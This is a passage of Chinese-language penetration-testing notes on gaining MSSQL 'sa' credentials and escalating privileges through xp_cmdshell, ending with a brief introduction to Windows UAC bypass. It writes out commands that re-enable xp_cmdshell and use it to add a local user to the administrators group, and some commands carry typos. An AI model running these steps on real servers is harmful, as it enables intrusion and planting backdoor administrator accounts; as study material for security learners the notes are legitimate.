 * 获取sa号密的方法：

> 1. webshell或源码获取。一般在网站的配置文件中存了明文账号密码，常用配置文件如：conn.aspx、config.aspx、config.php等
>    一般格式如：server=localhost;UID=sa;PWD=passwd;database=db
> 2. 源码泄露
> 3. 嗅探。在局域网中用Cain等工具进行arp嗅探的时候可以抓取到1433端口的数据库明文登录
> 4. 暴力破解

#### xp_cmdshell提权

>* xp_cmdshell:
>
>1. 存储过程：是存储在SQLServer中预先定义好的"sql语言集合"，使用T-SQL语言编写好的脚本共同组成的集合体为存储过程
>2. xp_cmdshell脚本：扩展存储过程的脚本，是危险性最高的脚本，可以执行操作系统的任何指令
>3. xp_cmdshell在mssql2000中是默认开启的，在mssql2005后的版本中默认禁止。如果用户具有sa权限可以用sp_configure重新开启




xp_cmdshell提权过程：
（2005以前的版本):

1. 连接数据库：
   `select ame from master.dbo.sysdatabases`获取所有的数据库名
2. 查看当前版本`select @@version`
   判断当前是否为sa`select is_srvrolemember('sysadmin')`
   判断是否有public权限`select is_srvrolemember('public')`
   判断是否有读写文件权限`select is_srvrolemember('db_owner')`
3. 查看数据库中是否有xp_cmdshell扩展存储插件，return 1则有
   `select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';`


（2005后的版本)：

1. 开启xp_cmdshell

```exec sp_configure 'show advance options',1;//允许修改高级参数
reconfigure;
exec sp_configure 'xp_cmshell',1;//打开xp_cmdshell扩展
reconfigure;
```

2. xp_cmdshell执行命令

```exec master..xp_cmdshell 'net user name passwd /add'//添加用户name,密码passwd
exec master..xp_cmdshell 'net localgroup administrators name /add'//添加name到管理员组
```

### windows bypass uac

uac(user acount control)可以阻止未授权的应用程序自动安装，并防止无意中更改系统设置

>uac的三种设置要求：
>
>1. 始终通知
>2. 仅在系统试图更改我的计算机时通知（Uac默认设置，第三方使用高级别权限时会提示本地用户)
>3. 从不提示(用户为系统管理员时所有程序都会以最高权限运行)

相当于普通用户打开cmd和以管理员运行cmd的差别，普通用户以管理员身份开cmd就会受到uac的限制，输入管理员密码
